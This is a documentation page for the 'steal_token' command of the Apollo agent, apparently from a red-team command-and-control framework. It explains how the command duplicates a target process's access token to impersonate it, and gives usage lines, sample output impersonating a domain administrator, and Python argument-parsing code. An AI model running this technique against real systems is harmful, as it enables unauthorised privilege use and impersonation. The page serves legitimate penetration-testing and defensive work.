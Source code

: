 +++
title = "steal_token"
chapter = false
weight = 103
hidden = false
+++

{{% notice info %}}
Artifacts Generated: Process Open
{{% /notice %}}

## Summary
Steals the primary access token from a target process and sets it as both the primary and impersonation token for the Apollo agent. Opens the target process, duplicates its token, and updates the agent's identity context to operate under the stolen token's privileges.

- **Needs Admin:** False (depends on target process privileges)
- **Version:** 2
- **Author:** @djhohnstein

### Arguments
- **pid** (Number, Required) - Process ID to steal token from

## Usage
```
steal_token 1234
steal_token {"pid": 5678}
steal_token {"process_id": 9012}
```

**Output:**
```
Successfully impersonated DOMAIN\Administrator
Old Claims (Authenticated: True, AuthType: Negotiate):
...claim details...

New Claims (Authenticated: True, AuthType: Negotiate):
...claim details...
```

## Detailed Summary

### Agent Execution Flow

#### 1. Parameter Processing and Validation
```python
async def parse_arguments(self):
    if len(self.command_line) == 0:
        raise Exception("steal_token requires a PID to steal a token from.")
    
    try:
        if self.command_line[0] == '{':
            supplied_dict = json.loads(self.command_line)
            if "pid" in supplied_dict:
                self.add_arg("pid", int(supplied_dict["pid"]), type=ParameterType.Number)
            elif "process_id" in supplied_dict:
                self.add_arg("pid", int(supplied_dict["process_id"]), type=ParameterType.Number)
            else:
                self.load_args_from_json_string(self.command_line)
        else:
            self.add_arg("pid", int(self.command_line), type=ParameterType.Number)
    except:
        raise Exception(f"Invalid integer value given for PID: {self.command_line}")
```